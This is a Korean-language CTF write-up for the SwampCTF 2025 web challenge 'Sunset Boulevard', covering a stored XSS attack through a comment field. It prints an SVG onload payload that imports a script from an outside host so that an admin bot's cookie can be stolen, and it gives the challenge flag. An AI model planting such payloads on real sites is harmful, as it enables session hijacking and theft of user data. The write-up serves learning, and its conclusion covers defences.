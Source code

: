 # 🐊 SwampCTF 2025 Writeup - [Sunset Boulevard]

**Category:** [Web]  
**Points:** [100]  
**Tags:** `CTF`, `[Web]`, `swampctf`  

---
## 📚 Table of Contents
- [🔍 Recon](#-recon)
- [🎯 The Goal](#-the-goal)
- [💉 Exploit](#-exploit)
- [🍪 Info Leakage or Gain](#-info-leakage-or-gain)
- [👑 Accessing the Flag](#-accessing-the-flag)
- [🧠 Conclusion](#-conclusion)

---
## 🔍 Recon

![문제 웹](./Pasted%20image%20250403002957.png)

- 팬들이 메시지를 작성할 수 있는 웹페이지 제공
- 관리자 페이지가 존재한다는 소문이 있음
- 힌트에 따르면 `https://artoo.love`를 통한 공격 가능성 존재

---

## 🎯 The Goal

> 플래그를 얻기 위해 해야 할 주요 목표 정리
![문제 웹](./Pasted%20image%20250403003017.png)
- [ ] Stored XSS 삽입
- [ ] 관리자 봇을 통한 스크립트 실행 유도
- [ ] 세션/쿠키 탈취 또는 플래그 출력

---

## 💉 Exploit

### 🛠️ Step 1. Stored XSS 시도
![문제 웹](./Pasted%20image%20250403003110.png)

- `https://artoo.love`에서 JS 페이로드 생성
- 삽입한 XSS 페이로드 예시:
```
<svg onload="import('//popjs.dev/yOPcj')"></svg>
```

![문제 웹](./Pasted%20image%20250403003153.png)

- 댓글란에 삽입하여 저장 → **Stored XSS** 성공

### 🛠️ Step 2. 쿠키 탈취

![문제 웹](./Pasted%20image%20250403003217.png)

![문제 웹](./Pasted%20image%20250403003242.png)

- 일정 시간 후 관리자 봇이 페이지 방문
- XSS 실행 → 쿠키 전송/세션 탈취 👉 flag 확인 성공

#### 🛠️ 사용한 도구
  - [ ] artoo.love
  - [ ] JS 이벤트 삽입 (svg, script 등)

---

## 🍪 Info Leakage or Gain

- 관리자 세션 쿠키 또는 인증 토큰 탈취 가능
- 플래그가 쿠키 또는 응답값에 포함되어 있음

---

## 👑 Accessing the Flag

플래그에 접근한 방식 (ex. 관리자 페이지 진입, 쿠키 내 포함 등)

```
swampCTF{THIS_MUSICAL_WAS_REVOLUTIONARY_BUT_ALSO_KIND_OF_A_SNOOZE_FEST}
```

---

## 🧠 Conclusion

배운 점, 보안 상 주의할 점, 이 취약점의 영향 요약:

- Stored XSS는 여전히 심각한 위협이 될 수 있음
- 사용자 입력 필터링 및 Content Security Policy 설정이 매우 중요
- 관리자 봇이 입력값을 직접 렌더링하는 구조는 취약함
- 외부 스크립트를 참조하는 단순한 XSS 페이로드도 매우 치명적일 수 있음

---

_📚 Writeup by [@ChaeYum1](https://github.com/ChaeYum1)_